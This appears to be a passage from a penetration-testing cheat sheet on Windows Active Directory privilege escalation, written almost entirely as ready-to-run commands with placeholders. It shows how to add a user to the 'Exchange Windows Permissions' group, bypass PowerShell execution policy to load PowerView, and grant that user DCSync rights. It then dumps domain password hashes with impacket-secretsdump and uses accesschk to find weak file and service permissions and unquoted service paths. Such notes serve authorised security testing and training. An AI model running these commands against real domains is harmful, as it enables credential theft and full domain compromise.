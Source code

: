 ## Account Operators Group Membership

### Add User

```cmd
PS C:\> net user <USERNAME> <PASSWORD> /add /domain
PS C:\> net group "Exchange Windows Permissions" /add <USERNAME>
```

### Import PowerView

```cmd
PS C:\> powershell -ep bypass
PS C:\> . .\PowerView.ps1
```

### Add DCSync Rights

```cmd
PS C:\> $pass = convertto-securestring '<PASSWORD>' -AsPlainText -Force
PS C:\> $cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USERNAME>', $pass)
PS C:\> Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=<DOMAIN>,DC=<DOMAIN>" -PrincipalIdentity <USERNAME> -Rights DCSync
```

### DCSync

```console
$ impacket-secretsdump '<USERNAME>:<PASSWORD>@<RHOST>'
```

## accesschk

### Checking File Permissions

```cmd
C:\> .\accesschk.exe /accepteula -quvw "C:\PATH\TO\FILE\<FILE>.exe"
```

### Checking Service Permissions

```cmd
C:\> .\accesschk.exe /accepteula -uwcqv <USERNAME> daclsvc
```

### Checking Path Permissions to find Unquoted Service Paths

```cmd
C:\> .\accesschk.exe /accepteula -uwdq C:\
C:\> .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
C:\> .\accesschk.exe /accepteula -uwdq "C:\Program Files\<UNQUOTED_SERVICE_PATH>"
```
